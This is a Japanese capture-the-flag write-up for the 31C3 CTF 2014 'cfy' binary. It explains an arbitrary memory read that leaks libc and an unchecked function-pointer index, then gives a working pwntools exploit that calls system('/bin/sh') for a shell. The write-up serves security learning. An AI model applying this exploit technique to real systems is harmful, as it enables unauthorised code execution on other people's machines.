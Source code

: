 ```yaml
---
layout: post
alias: "/blog/2016/02/18/31c3-ctf-2014-cfy/"
date: 2016-02-18T10:32:58+09:00
tags: [ "ctf", "writeup", "pwn", "31c3-ctf" ]
---
```


# 31C3 CTF 2014: cfy

libcの特定をする必要があると知った回。(してなかった)

## [cfy](https://github.com/ctfs/write-ups-2014/tree/master/31c3-ctf-2014/pwn/cfy)

``` sh
$ file cfy
cfy: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=f023c69bba5f53464912a2501e87fb098e19af5d, not stripped

$ checksec --file cfy
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   cfy

$ ./cfy
What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit
0

Please enter your number: 10
dec: 16
hex: 0x10

What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit
3
have a nice day
```

### 攻撃

`2) parse from pointer`を選ぶと好きなアドレスを読むことができる。これにより、libcのbase addressが判明する。

`parsers`という関数ポインタの配列を持っており、与えられた入力をindexとして参照するが、indexの範囲のチェックをしていない。
大きな値を与えると別の入力である`buf`上に乗ったアドレスを`call`させられる。(しかも`buf`を引数として与えて呼び出す。)

これにより`system("/bin/sh");`を叩ける。

``` sh
$ readelf -s cfy
    59: 0000000000601080    48 OBJECT  GLOBAL DEFAULT   24 parsers
    72: 00000000006010e0  1024 OBJECT  GLOBAL DEFAULT   25 buf
    74: 000000000040080c   278 FUNC    GLOBAL DEFAULT   13 main
    75: 0000000000400785    20 FUNC    GLOBAL DEFAULT   13 from_ptr
    79: 0000000000400761    36 FUNC    GLOBAL DEFAULT   13 from_dec
    80: 000000000040073d    36 FUNC    GLOBAL DEFAULT   13 from_hex
```

### 実装

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools

elf = ELF('./cfy')
choice_call_buf = 6 # if you choose 6, it calls buf
choice_distance = 1<<4

context.log_level = 'debug'

# local
p = process('./cfy')
libc = ELF('/usr/lib/libc.so.6')

p.recvuntil('What do you want to do?\n')
p.sendline('2')
p.recvuntil('Please enter your number: ')
p.sendline(p64(elf.got['puts']))
p.recvline()
libc_base = int(p.recvline().split()[1], 16) - libc.symbols['puts']

p.recvuntil('What do you want to do?\n')
p.sendline('0')
p.recvuntil('Please enter your number: ')
p.sendline('A' * choice_distance + p64(libc_base + libc.symbols['system']))

p.recvuntil('What do you want to do?\n')
p.sendline(str(choice_call_buf + 1))
p.recvuntil('Please enter your number: ')
p.sendline('/bin/sh')

p.sendline('ls')
p.interactive()
```

---

# 31C3 CTF 2014: cfy

-   Thu Feb 18 18:50:53 JST 2016
    -   libcに関して追記
